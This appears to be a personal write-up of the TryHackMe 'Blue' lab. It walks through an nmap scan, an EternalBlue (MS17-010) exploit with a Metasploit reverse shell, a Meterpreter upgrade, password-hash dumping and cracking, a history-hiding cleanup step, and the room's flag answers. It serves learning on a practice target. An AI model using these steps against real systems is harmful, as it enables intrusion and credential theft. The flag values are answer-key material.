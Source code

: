 # [Blue]

## Basic Info
- **Platform**: TryHackMe
- **IP Address**: 10.10.5.87
- **Date**: 05/03/2025
- **Difficulty**: Easy
- **Tags**: Enumeration, Exploitation, Privilege Escalation

---

## Scanning & Enumeration

### Nmap
**Command:**
```bash
nmap -sVC -T4 -p- --open <ip> -oN blue.nmap
```

**Result Summary:**

```
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-05-02T14:26:05
|_Not valid after:  2025-11-01T14:26:05
|_ssl-date: 2025-05-03T15:50:43+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:50:17:50:99:b1 (unknown)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h14m59s, deviation: 2h30m00s, median: -1s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-03T10:50:37-05:00
| smb2-time: 
|   date: 2025-05-03T15:50:37
|_  start_date: 2025-05-03T14:26:04
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

---

## Service Analysis

### Port 445 - SMB
- **What’s running:** Microsoft SMB (Server Message Block)
- **Interesting files/directories:** 
- **Vulnerabilities identified:** ms17-010

---

## Exploitation

### Method Used:
- Vulnerability: ms17-010
- Exploit Used: exploit/windows/smb/ms17_010_eternalblue AKA eternalblue
- Shell Access Gained: Yes, reverse shell via Metasploit

**Commands:**
```bash
msfconsole - to start MetaSploit
	set the RHOST to <target_ip>
	set the LHOST to <your_ip>
	set payload windows/x64/shell/reverse_tcp #set the payload to get a reverse shell. 
	show targets  #to show potentional targets you can set which varies of the OS that the target has
	set target 1  #to select target os
	run #then run the exploit

```
---

```bash
CTRL+Z to background the shell
Then ran "search shell_to_meterpreter" #to have a stable meterpreter session
use 0 - to choose the exploit
sessions -l #to list the shells that we have.
set session 1
run #This upgrades the session
```
The session will look like it dropped, if you see 'stopping exploit/multi/handlder' it did not crash, instead run the following.

```bash

session 2 #this selects the upgraded session

```

We can see that our process ID belongs to powershell.exe and is running as NT AUTHORITY\SYSTEM.

then run:

```bash

hashdump

```

We can crack this hash using john with the following command after adding the hash (we just need the last part of the hash after the last “:”) to a file called “hash.txt” for the user Jon.

```bash

echo <hash> > hash.txt

```

Then now we have a password.

Now lets get the flags:

```bash
search -f *.txt - search for all the flags

```

```bash
cat "C:\\flag1.txt"
cat "c:\\Windows\\System32\\config\\flag2.txt"
cat "c:\\Users\\Jon\\Documents\\flag3.txt"
```

### User Enumeration
getuid
ps

### File Discovery
Flag 1 location: C:\flag1.txt
Flag 2 location: c:\Windows\System32\config\flag2.txt
Flag 3 location: c:\Users\Jon\Documents\flag3.txt

---

## Privilege Escalation

### Method Used:
Not applicable — already NT AUTHORITY\SYSTEM from exploit

---

## Flags

- **Flag 1** flag{access_the_machine}
- **Flag 2** flag{sam_database_elevated_access}
- **Flag 3** flag{admin_documents_can_be_valuable}

---

## Lessons Learned
- I've learned sometimes if you have a firewall setup on your machine that you will need to allow list the ports that your room is using to connect back to your machine.
- Within the upgraded shell, you sometimes need to use a double "\\" for the absolute filepath to "cat" out the file contents of files.
- 

---

## Cleanup (If applicable)
```bash
rm /tmp/<filename>
unset HISTFILE
```


## Summary/Understanding of what I've learned in this room
- Learned how to exploit the EternalBlue vulnerability (MS17-010) on a vulnerable Windows 7 machine using Metasploit.
- Even though the exploit grants SYSTEM immediately, upgrading to Meterpreter makes post-exploitation easier.
- Extracted NTLM hashes and used John the Ripper for cracking.
